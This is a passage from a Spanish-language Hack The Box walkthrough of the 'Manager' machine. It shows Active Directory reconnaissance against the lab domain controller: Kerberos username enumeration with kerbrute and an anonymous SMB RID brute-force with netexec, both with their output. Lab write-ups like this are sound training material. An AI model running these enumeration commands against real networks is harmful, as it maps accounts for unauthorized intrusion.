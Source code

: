 Al observar el servicio Kerberos en ejecución en el puerto 88, procederemos a realizar una enumeración de usuarios utilizando la herramienta [kerbrute](https://github.com/ropnop/kerbrute){:target="_blank"}

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager]
└─# ./kerbrute_linux_amd64 userenum -d manager.htb /mnt/angussMoody/Machines/Manager/usernames.txt --dc dc01.manager.htb -t 100

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 03/02/24 - Ronnie Flathers @ropnop

2024/03/02 22:15:52 >  Using KDC(s):
2024/03/02 22:15:52 >  	dc01.manager.htb:88

2024/03/02 22:15:54 >  [+] VALID USERNAME:	 administrator@manager.htb
2024/03/02 22:16:31 >  [+] VALID USERNAME:	 cheng@manager.htb
2024/03/02 22:17:41 >  [+] VALID USERNAME:	 guest@manager.htb
2024/03/02 22:19:04 >  [+] VALID USERNAME:	 operator@manager.htb
2024/03/02 22:19:31 >  [+] VALID USERNAME:	 raven@manager.htb
2024/03/02 22:19:41 >  [+] VALID USERNAME:	 ryan@manager.htb
2024/03/02 22:20:37 >  Done! Tested 81475 usernames (6 valid) in 285.015 seconds

```

Como resultado, obtenemos una lista de usuarios válidos dentro del sistema.

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager]
└─# kerbrute -users usernames.txt -domain manager.htb -dc-ip 10.10.11.236 -outputfile UserAD -threads 200
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Valid user => administrator
[*] Valid user => cheng
[*] Valid user => operator
[*] Valid user => raven
[*] Valid user => ryan
[*] No passwords were discovered :'(

```

También podemos llevar a cabo una enumeración utilizando la herramienta [netexec](https://github.com/Pennyw0rth/NetExec){:target="_blank"}, que es la actualización de CrackMapExec. Con esta herramienta, podemos obtener resultados similares, aunque un poco más completos.

```jsx
┌──(root㉿angussMoody)-[/mnt/angussMoody/Machines/Manager]
└─# netexec smb manager.htb -u anonymous -p "" --rid-brute 10000
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\anonymous: 
SMB         10.10.11.236    445    DC01             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             500: MANAGER\Administrator (SidTypeUser)
SMB         10.10.11.236    445    DC01             501: MANAGER\Guest (SidTypeUser)
SMB         10.10.11.236    445    DC01             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.10.11.236    445    DC01             512: MANAGER\Domain Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             513: MANAGER\Domain Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             514: MANAGER\Domain Guests (SidTypeGroup)
SMB         10.10.11.236    445    DC01             515: MANAGER\Domain Computers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             516: MANAGER\Domain Controllers (SidTypeGroup)
```